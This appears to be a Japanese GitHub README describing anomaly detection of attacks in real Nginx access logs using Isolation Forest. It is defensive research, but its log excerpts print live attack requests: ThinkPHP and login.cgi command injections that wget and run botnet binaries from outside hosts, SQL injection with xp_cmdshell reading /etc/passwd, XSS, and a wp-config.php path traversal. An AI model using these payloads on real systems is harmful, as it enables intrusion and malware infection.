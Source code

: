 # Walu(Web Application Log Unveiler)

https://www.scutum.jp/information/waf_tech_blog/2021/01/waf-blog-077.html
 
　上記Blog（WAF Tech Blog）から自分なりに調査した結果のメモ。

　ラベル付け無しに攻撃を検知したい。そのためには正常系から離れたデータ、つまり「外れ値」を攻撃と定義して、異常検知アルゴリズムを用いる。上記blogではIsolation forestを使用。データセットは[Harvard Dataverse](https://dataverse.harvard.edu/dataset.xhtml?persistentId=doi:10.7910/DVN/3QBYB5)にあるAccess.log.zip。イラン実在のショッピングサイトにおける2019年1月からの数日間のアクセスログをNginxにより取得。1036万行（3.3GB）。

　上記blogと同条件で取り出したデータから、ランダムに抽出した10000件のデータを2次元にマッピング（画像1）。データセットを調査するとScale-freeしている。[ipynb/viz01.ipynb](ipynb/viz01.ipynb) [[mybinder.org](https://mybinder.org/v2/gh/kenjiaiko/Walu/main?filepath=ipynb%2Fviz01.ipynb)]

<img src="ipynb/t-SNE10000.jpg" width="300">（画像1）

　異常検知において正常系と判断されるのは大きなクラスタ、よって小さいクラスタ群が外れ値となる。データセットがScale-freeしているため外れ値となったクラスタ群を集めて再度Isolation forestを適用すれば、さらなる外れ値が算出される。スコアの閾値を0.25にし、2回Isolation forestを適用すると

```
$ ./run.sh 2 0.25
```

```
$ head -n 2 data/result_by_ip.txt
0.186 185.222.202.118 - - [22/Jan/2019:09:15:46 +0330] "GET /public/index.php?s=/index/%5Cthink%5Capp/invokefunction&function=call_user_func_array&vars[0]=shell_exec&vars[1][]=cd%20/tmp;wget%20http://185.222.202.118/bins/rift.x86;cat%20rift.x86%20%3E%20efjins;chmod%20777%20efjins;./efjins%20thinkphp HTTP/1.1" 301 178 "-" "python-requests/2.4.3 CPython/2.7.9 Linux/3.16.0-4-amd64" "-"
0.188 62.210.157.10 - - [25/Jan/2019:21:20:36 +0330] "GET /wp-content/plugins/wptf-image-gallery/lib-mbox/ajax_load.php?url=../../../../wp-config.php HTTP/1.1" 301 178 "-" "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:58.0) Gecko/20100101 Firefox/58.0" "-"
```

　1,2行目に明確な攻撃がくる。61,62行目にはSELECT,UNIONを含んだもの。

```
0.261 176.121.14.183 - - [25/Jan/2019:12:07:57 +0330] "GET /image/29000?name=6aba3c.jpg&amp%3Bwh=200x200&HMCj%3D1300%20AND%201%3D1%20UNION%20ALL%20SELECT%201%2CNULL%2C%27%3Cscript%3Ealert%28%22XSS%22%29%3C%2Fscript%3E%27%2Ctable_name%20FROM%20information_schema.tables%20WHERE%202%3E1--%2F%2A%2A%2F%3B%20EXEC%20xp_cmdshell%28%27cat%20..%2F..%2F..%2Fetc%2Fpasswd%27%29%23 HTTP/1.1" 200 1035 "-" "Mozilla/5.0 (X11; U; Linux i686; en-US; rv:1.9b4) Gecko/2008031317 Firefox/3.0b4" "-"
0.261 5.101.40.234 - - [23/Jan/2019:06:53:01 +0330] "GET /image/{{basketItem.id}}?type=productModel&wh=50x50&fhnz%3D1551%20AND%201%3D1%20UNION%20ALL%20SELECT%201%2CNULL%2C%27%3Cscript%3Ealert%28%22XSS%22%29%3C%2Fscript%3E%27%2Ctable_name%20FROM%20information_schema.tables%20WHERE%202%3E1--%2F%2A%2A%2F%3B%20EXEC%20xp_cmdshell%28%27cat%20..%2F..%2F..%2Fetc%2Fpasswd%27%29%23 HTTP/1.1" 301 178 "-" "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/534.24 (KHTML, like Gecko) Chrome/11.0.696.3 Safari/534.24" "-"
```

　次に専門家による特徴選択をしないケース。例えば特定の文字（Char）のCountのみを特徴とする場合。

```
$ python printspchars.py > features.txt
$ ./run.sh 2 0.30
```

　先頭から怪しいアクセスは続くが、明確なのは11行目以降。
 
```
0.204 108.61.86.94 - - [24/Jan/2019:13:08:01 +0330] "GET /login.cgi?cli=aa%20aa%27;wget%20http://108.61.86.94/bins/Solstice.mips%20-O%20->%20/tmp/.Solstice;chmod%20777%20/tmp/.Solstice;/tmp/.Solstice%20dlink%27$ HTTP/1.1" 400 166 "-" "Solstice/2.0" "-"
```

　それなりには攻撃アクセスが上位（低いスコア）になっている。ただし、先ほど2行目にあったアクセスは、こちらでは107行目：スコア0.344とかなり遅い登場。

```
0.344 62.210.157.10 - - [25/Jan/2019:21:20:36 +0330] "GET /wp-content/plugins/wptf-image-gallery/lib-mbox/ajax_load.php?url=../../../../wp-config.php HTTP/1.1" 301 178 "-" "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:58.0) Gecko/20100101 Firefox/58.0" "-"
```

　当然、専門家が特徴を設定した方が良いが、適当な特徴でもそれなりに（分析には差し障りない程度に）良い結果が得られるようである。

### 分析

- 上記BlogではJavaで書かれているが、それとほぼ同様のpythonコード。[ipynb/viz02.ipynb](ipynb/viz02.ipynb)
- ラベルのない1036万行のデータに対してIsolation forestを繰り返す。
- IPごとにもっともScoreの高いアクセスを抽出。742行。[ipynb/result_by_ip.txt](ipynb/result_by_ip.txt)
- 742行を人間が確認。

　全ての外れ値が真に攻撃であるならこれでOKなのだが、当然そうではないので、ここからは人間が確認していく。[ipynb/result_by_ip.txt](ipynb/result_by_ip.txt)の最初の29行ほどは/rapidGrails/jsonListリクエストが続く。まぁ攻撃ではないだろう。そして30行目に明確な攻撃が見つかる。
 
 ```
-0.7341514235140854 202.70.250.38 - - [24/Jan/2019:15:58:56 +0330] GET /index.php?s=/index/\x09hink\x07pp/invokefunction&function=call_user_func_array&vars[0]=shell_exec&vars[1][]= 'wget http://185.255.25.168/OwO/Tsunami.x86 -O /tmp/.Tsunami; chmod 777 /tmp/.Tsunami; /tmp/.Tsunami Tsunami.x86' HTTP/1.1\x00 400 166 - - -
```

　最初のパターンはindex.phpに対してshell_exec, wgetをするもの。他にも複数見つかる（32-50行目）。これをpattern1とする。続いて51行目。

```
-0.7335728824690786 176.121.14.183 - - [25/Jan/2019:12:07:57 +0330] GET /image/29000?name=6aba3c.jpg&amp%3Bwh=200x200&HMCj%3D1300%20AND%201%3D1%20UNION%20ALL%20SELECT%201%2CNULL%2C%27%3Cscript%3Ealert%28%22XSS%22%29%3C%2Fscript%3E%27%2Ctable_name%20FROM%20information_schema.tables%20WHERE%202%3E1--%2F%2A%2A%2F%3B%20EXEC%20xp_cmdshell%28%27cat%20..%2F..%2F..%2Fetc%2Fpasswd%27%29%23 HTTP/1.1 200 1035 - Mozilla/5.0 (X11; U; Linux i686; en-US; rv:1.9b4) Gecko/2008031317 Firefox/3.0b4 -
```

　UNION, SELECT, script, alertが入ったもの。明らかに攻撃を意図したアクセス。これをpattern2。その後pattern1が続き、126行目に再びpattern2が出てくる。そして206行目。

```
-0.6859619404158754 151.25.29.64 - - [22/Jan/2019:05:55:47 +0330] GET /login.cgi?cli=aa%20aa%27;wget%20http://217.61.5.226/bins/Solstice.mips%20-O%20->%20/tmp/.Solstice;chmod%20777%20/tmp/.Solstice;/tmp/.Solstice%20dlink%27$ HTTP/1.1 400 166 - Solstice/2.0 -
```

　login.cgi, wgetが入ったもの。これをpattern3。

```
-0.6626657948031308 37.137.14.150 - - [22/Jan/2019:16:09:03 +0330] GET /m/product/33487/64141/%D8%AC%D8%A7%D8%B1%D9%88%D8%A8%D8%B1%D9%82%DB%8C-%D8%A8%D8%A7-%D9%BE%D8%A7%DA%A9%D8%AA-%D8%A8%D9%88%D8%B4-%D9%85%D8%AF%D9%84-BGL8PRO5IR%22%3E%3Cdiv%20class%3D%22kharid-khoob%22style%3D%22background-image%3A%20url%28%2FdiscountLabel%2Fget%2F3?utm_content=2005&utm_medium=26&utm_campaign=GPB&utm_term=209&type=desktopSmallIcon%29%3Bwidth%3A75px%3Bheight%3A77px%3B%3Futm_source%3D6 HTTP/1.1 404 211 https://www.garda.ir/%D9%84%D9%88%D8%A7%D8%B2%D9%85-%D8%AE%D8%A7%D9%86%DA%AF%DB%8C-%D9%88-%D8%A2%D8%B4%D9%BE%D8%B2%D8%AE%D8%A7%D9%86%D9%87/%D8%AC%D8%A7%D8%B1%D9%88-%D8%A8%D8%B1%D9%82%DB%8C/%D8%AC%D8%A7%D8%B1%D9%88-%D8%A8%D8%B1%D9%82%DB%8C-%D8%A8%D9%88%D8%B4/%D8%AC%D8%A7%D8%B1%D9%88%D8%A8%D8%B1%D9%82%DB%8C-%D8%A8%D8%A7-%D9%BE%D8%A7%DA%A9%D8%AA-%D8%A8%D9%88%D8%B4-%D9%85%D8%AF%D9%84-BGL8PRO5IR-214503 Mozilla/5.0 (iPhone; CPU iPhone OS 9_3_5 like Mac OS X) AppleWebKit/601.1.46 (KHTML, like Gecko) Version/9.0 Mobile/13G36 Safari/601.1 -
```

```
-0.6582348010972741 2.183.9.23 - - [23/Jan/2019:10:36:16 +0330] GET /image/29/productTypeTy%3C/div%3E%3Cstyle%3E.notFoundList%20%7Bdisplay:%20block;padding-top:%2010px;%7D.notFoundList%20li%20%7Blist-style:%20none;display:%20inline-block;margin:%205px;%7D.notFoundList%20a%20%7Blist-style:%20none;background:%20 HTTP/1.1 200 11 https://www.zanbil.ir/filter/b136,b261,b74,p5 Mozilla/5.0 (Windows NT 6.1) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/71.0.3578.98 Safari/537.36 -
```

　230行目、/m/product/にdivタグを入れたもの。pattern4。242行目、/divタグで閉じたもの。pattern4亜種。

```
-0.6057850284293474 62.210.157.10 - - [25/Jan/2019:21:20:36 +0330] GET /wp-content/plugins/wptf-image-gallery/lib-mbox/ajax_load.php?url=../../../../wp-config.php HTTP/1.1 301 178 - Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:58.0) Gecko/20100101 Firefox/58.0 -
```

```
-0.5928439132758191 104.249.46.47 - - [26/Jan/2019:18:30:49 +0330] GET /image/27458?name=...............1.jpg&wh=200x200 HTTP/1.1 200 5937 - Mozilla/5.0 (Windows NT 6.1; WOW64; Trident/7.0; rv:11.0) like Gecko -
```

　304行目、../wp-config.php。pattern5。315行目、name=....jpg。（攻撃じゃないが）一応pattern5亜種。

　以上が攻撃アクセス。pattern1-5を検知する手法を考案すれば良い。

　ラベルが付けばあとは適当なアルゴリズムで学習させれば良い。課題はいかに「ラベル付け」を自動化できるか。今回は最後の742行を人間が確認したが、これを完全に自動化できればデータセットから攻撃のみを検知できる。もちろんIsolation forestだけ（というより単一のアルゴリズムだけ）では無理だろうが、その解決法を探すことが課題となる。
